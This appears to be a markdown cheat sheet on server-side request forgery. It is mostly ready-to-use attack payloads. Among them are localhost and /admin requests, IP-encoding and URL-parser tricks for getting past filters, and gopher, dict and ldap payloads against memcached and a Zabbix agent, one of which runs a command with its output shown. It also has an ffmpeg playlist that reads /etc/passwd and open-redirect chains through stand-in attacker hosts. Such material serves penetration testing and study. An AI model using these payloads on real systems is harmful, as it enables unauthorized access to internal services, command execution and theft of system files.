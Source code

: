 ## SSRF


Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing.

##### impact 

A successful SSRF attack can often result in unauthorized actions or access to data within the organization, either in the vulnerable application itself or on other back-end systems that the application can communicate with. In some situations, the SSRF vulnerability might allow an attacker to perform arbitrary command execution.


##### example 

POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
-----
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin

------


#### SSRF with blacklist-based input filters

Some applications block input containing hostnames like 127.0.0.1 and localhost, or sensitive URLs like /admin. In this situation, you can often circumvent the filter using various techniques:

Using an alternative IP representation of 127.0.0.1, such as 2130706433, 017700000001, or 127.1.
Registering your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
Obfuscating blocked strings using URL encoding or case variation.

#### Bypass

http://google.com:80+&@127.88.23.245:22/#+@google.com:80/

http://127.88.23.245:22/+&@google.com:80#+@google.com:80/

http://google.com:80+&@google.com:80#+@127.88.23.245:22/

http://127.88.23.245:22/?@google.com:80/

http://127.88.23.245:22/#@www.google.com:80/

After testing several SSRF techniques I found a bypass for this protection.
Using an IPV6 vector [::].

http://hacker.site/x.php/?u=http://%5B::%5D:22/
0
127.00.1
127.0.01
0.00.0
0.0.00
127.1.0.1
127.10.1
127.1.01
0177.1
0177.0001.0001
0x0.0x0.0x0.0x0
0000.0000.0000.0000
0x7f.0x0.0x0.0x1
0177.0000.0000.0001
0177.0001.0000..0001
0x7f.0x1.0x0.0x1
0x7f.0x1.0x1
localtest.me

 ##### Decimal/Hex/Octal formats of 192.168.0.10
    ##########################################

    #Decimal

    #8-bit  192.168.0.10
    #16-bit 192.168.10
    #24-bit 192.11010058
    #32-bit 3232235530

    #Octal

    #8-bit  0300.0250.00.012
    #16-bit 0300.0250.012
    #24-bit 0300.052000012
    #32-bit 030052000012

    #Hexadecimal

    #8-bit  0xc0.0xa8.0x0.0xa
    #16-bit 0xc0.0xa8.0xa
    #24-bit 0xc0.0xa8000a
    #32-bit 0xc0a8000a

##### Unsafe redirect

Easy way to bypass input validation is URL redirection. HTTP clients not a browsers. There are normally to do unsafe redirect
(except of Java case).

<?php
header(“Location: gopher://localhost:123/1asd”);
?>

Works fine for cURL, LWP, ASP.NET (exploit: http://anyhostwithredirest.com/ ­> gopher://localhost:11211/1stats%0aquit).


##### Protocol fingerprinting

POST / HTTP/1.1
Host: localhost
Content­-Length: 5

Server will wait last 5 bytes of request and socket still opened. Exploit:

gopher://localhost:8001/1POST%20%2fHTTP%2f1.1%0d%0aHost:localhost%0d%0aContent­Length:5%0d%0a%0d%0a





Exploits
gopher://localhost:11211/1%0astats%0aquit
dict://locahost:11211/stats
ldap://localhost:11211/%0astats%0aquit

gopher://localhost:10050/1vfs.file.regexp[/etc/hosts,7]
Server response:
ZBXD?127.0.0.1 localhost ads.localhost localhost.vv asd.localhost.vv
gopher://localhost:10050/1system.run[ls]
Server response:
ZBXD,usr
etc
var
boot

[src] (https://bugs.launchpad.net/ubuntu/+source/ffmpeg/+bug/1533367)

$ cat video.mp4
&#EXTM3U
&#EXT­X­MEDIA­SEQUENCE:0
&#EXTINF:10.0,
concat:http://example.org/header.y4m|file:///etc/passwd
&EXT­X­ENDLIST
$ ffmpeg ­i video.mp4 thumbnail.png
$ ffmpeg ­i thumbnail.png out.y4m
$ cat out.y4m
YUV4MPEG2 W30 H30 F25:1 Ip A0:0 Cmono
FRAME
&# $FreeBSD: release/10.0.0/etc/master.passwd 256366
,! 2013­10­12 06:08:18Z rpaulo $
&#
root:*:0:0:Charlie &:/root:/usr/local/bin/zsh
toor:*:0:0:Bourne­again Superuser:/root:

##### Bypassing SSRF filters via open redirection


/product/nextProduct?currentProductId=6&path=http://evil-user.net

returns a redirection to:

http://evil-user.net

You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:

POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin

#### Protocols SSRF smuggling


Apache web­server HTTP parser

In despite of RFC 2616, Apache web­server allow single LF splitter instead of CRLF. Attacker can use this feature to smuggling
packets with 0x0d byte filtered.

Example:
GET / HTTP/1.1\nHost:localhost\n\n

Pay attention, that Apache Tomcat hasn’t same feature, only CRLF and LFCR are possible there.

---------

Nginx web­server HTTP parser

Nginx also supports splitters without CR byte (0x0d). This bytes listed below: 0x20, 0x30­0x39.

Example:
GET / HTTP/1.1\s\nHost:localhost\s\n\s\n

Also possible using 0x30­0x39 instead of 0x20 (\s)
Look at simple HTTP splitter fuzzer: https://github.com/ONsec­Lab/scripts/blob/master/http­splitter­fuzzer.php

There are number of vulnerabilities which can provide SSRF attacks. Basically they can be determined by this groups:

● Format processing
    ○ XML
■ XXE
■ DTD remote access
■ XML design
    ○ OpenOffice
■ DDE formulas
■ Dynamic data linking
■ External resource embedding
    ○ PDF (TCPDF)
● Direct sockets access
    ○ CRLF injection
● Net library URL processing (unsafe server­side redirect and others)
    ○ cURL
    ○ LWP
    ○ ASP.NET URI
    ○ Java URI
● External data linking
    ○ Databases
■ Postgres




##### Resources

https://portswigger.net/web-security/ssrf
https://github.com/cujanovic/SSRF-Testing
https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/
https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/SSRFbible%20Cheatsheet.pdf ++

##### Reports 

https://hackerone.com/reports/514224
https://hackerone.com/reports/643622
https://hackerone.com/reports/386292
https://hackerone.com/reports/517461
https://hackerone.com/reports/326040
https://hackerone.com/reports/392859 [like a tutorial :D]
https://hackerone.com/reports/508459
https://hackerone.com/reports/446593
https://hackerone.com/reports/398799
https://hackerone.com/reports/358119
https://hackerone.com/reports/341876
https://hackerone.com/reports/406387
https://hackerone.com/reports/406387
https://hackerone.com/reports/382048
https://hackerone.com/reports/305978
https://hackerone.com/reports/409701
https://hackerone.com/reports/299130
https://hackerone.com/reports/382612
https://hackerone.com/reports/293847